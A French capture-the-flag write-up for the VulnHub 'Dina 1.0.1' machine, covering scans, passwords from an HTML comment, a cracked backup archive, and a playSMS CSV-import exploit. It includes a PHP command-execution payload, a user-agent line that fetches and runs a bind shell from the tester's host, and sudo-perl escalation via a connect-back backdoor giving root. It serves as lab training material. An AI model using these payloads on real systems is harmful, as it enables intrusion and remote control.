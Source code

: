 ```yaml
---
title: "Solution du CTF Dina: 1.0.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


On continue les CTF de chez VulnHub avec le [Dina 1.0.1](https://www.vulnhub.com/entry/dina-101,200/) datant d'octobre 2017.  

#my secret webapp
-----------------

```
Nmap scan report for 192.168.1.48
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
23490/tcp filtered unknown
35921/tcp filtered unknown
55285/tcp filtered unknown
59929/tcp filtered unknown
59990/tcp filtered unknown
60771/tcp filtered unknown
```

Un seul port ouvert, un joli *It works* à la racine mais un *index.html* tout de même présent qui ne nous apporte rien de plus.  

On retrouve certains des dossiers présents dans le *robots.txt* avec un buster ainsi que des nouveaux :  

```
http://192.168.1.48/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/doc/ - HTTP 403 (236 bytes, gzip)
http://192.168.1.48/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.48/nothing/ - HTTP 200 (154 bytes, gzip)
http://192.168.1.48/secure/ - HTTP 200 (452 bytes, gzip) - Directory listing found
http://192.168.1.48/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/tmp/ - HTTP 200 (395 bytes, gzip) - Directory listing found
http://192.168.1.48/uploads/ - HTTP 200 (397 bytes, gzip) - Directory listing found
```

Les dossiers *ange1*, *angel1*, *tmp* et *uploads* sont vides.  

Sous */nothing* la page HTML contient un commentaire avec des mots de passe :  

```html
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

Ça devrait s'avérer utile...  

Justement il y a une archive *backup.zip* sous */secure/* qui semble nécessiter un mot de passe :  

```
$ unzip backup.zip
Archive:  backup.zip
   skipping: backup-cred.mp3         need PK compat. v5.1 (can do v4.6)

$ 7z x backup.zip

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

Processing archive: backup.zip

Extracting  backup-cred.mp3
Enter password (will not be echoed) :
```

Et en rentrant le mot de passe *freedom* on obtient un fichier *backup-cred.mp3* qui est en réalité un fichier texte :  

```
I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******

url : /SecreTSMSgatwayLogin
```

./webpwn
--------

On se rend sur l'URL en question qui présente une mire de login. On parvient à si connecter avec *touhid* / *diana*.  

Il s'agit de [playSMS](https://playsms.org/) qui se défini comme un *Free and Open Source SMS Gateway*.  

Un tour rapide de l'application et je tique assez vite sur la fonction d'import de fichiers sur phonebook.  

Vu que c'est une vrai application je préfère regarder [la liste des vulnérabilités connues](https://www.cvedetails.com/vulnerability-list.php?vendor_id=2477&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=1&trc=6&sha=8c0e7e35a77560b7cd811bce1ac0a63b8fcb526f) et, oh que le monde est petit, [un exploit écrit par l'auteur du challenge](https://www.exploit-db.com/exploits/42044/)... c'est un signe :)   

[Une vidéo de l'exploit](https://www.youtube.com/watch?v=KIB9sKQdEwE) est citée en référence et on voit qu'il faut uploader un CSV contenant du code PHP spécifique tout en ayant placé le code PHP à exécuter dans notre user-agent.  

Après avoir essayé l'un des switchers j'ai opté pour [celui-ci](https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake?utm_source=chrome-app-launcher-info-dialog) qui semble être le même que dans la vidéo.  

Le fichier CSV uploadé à cette forme (il doit respecter les colonnes du phonebook) :  

```
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

Ce qui permet alors l'exécution de commandes :  

![Dina VulnHub playSMS interface](/assets/img/dina_playsms.png)

Comme pour le précédent challenge j'ai eu recours à [tcp\_pty\_bind.py](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) qui s'avère bien pratique.  

Mon user-agent était alors *cd /tmp; wget http://192.168.1.6:8000/tcp\_pty\_bind.py; setsid python tcp\_pty\_bind.py&*  

```
$ ncat 192.168.1.48 31337 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.1.48:31337.
www-data@Dina:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

g0tr00t?
--------

Sympa ce petit shell mais un peu limité. Le shell définit pour *www-data* est bien */bin/sh*... mais il n'y a pas de sshd sur la machine... sniff.  

Il y a un utilisateur *touhid* qui pourrait être intéressant. Quelques fichiers dans son dossier Downloads mais ils ont le même hash md5 que ceux sous la racine web :-/   

A tout hasard, peut-on exécuter certaines commandes en tant que root ?   

```
www-data@Dina:/tmp$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

Bingo !  

Plus qu'à récupérer ce fameux [dc.pl](https://pastebin.com/raw/bq6Zbpya) (pas de quoi me rajeunir) et l'exécuter avec sudo.  

```
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.1.48.
Ncat: Connection from 192.168.1.48:49435.
--== ConnectBack Backdoor Shell EDITED BY XORON TURK?SH HACKER ==--

--==Systeminfo==--
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux

--==Userinfo==--
uid=0(root) gid=0(root) groups=0(root)

--==Directory==--
/tmp

--==Shell==--
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))

root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....

CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

Simple et rapide :p

*Published February 10 2018 at 16:00*
